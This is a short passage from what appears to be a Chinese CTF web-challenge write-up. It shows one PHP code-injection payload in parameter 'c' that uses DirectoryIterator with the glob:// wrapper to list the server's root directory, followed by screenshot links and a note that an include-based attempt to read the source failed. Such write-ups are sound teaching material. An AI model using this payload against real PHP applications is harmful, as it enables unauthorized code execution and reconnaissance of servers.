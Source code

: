 ![image-20250404170744190](./assets/image-20250404170744190.png)



同上题





利用glob伪协议读取根目录

```
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo ($f->__toString().' ');}exit(0);?>
```

![image-20250404170943831](./assets/image-20250404170943831.png)



include读取源码

![image-20250404171111600](./assets/image-20250404171111600.png)

失败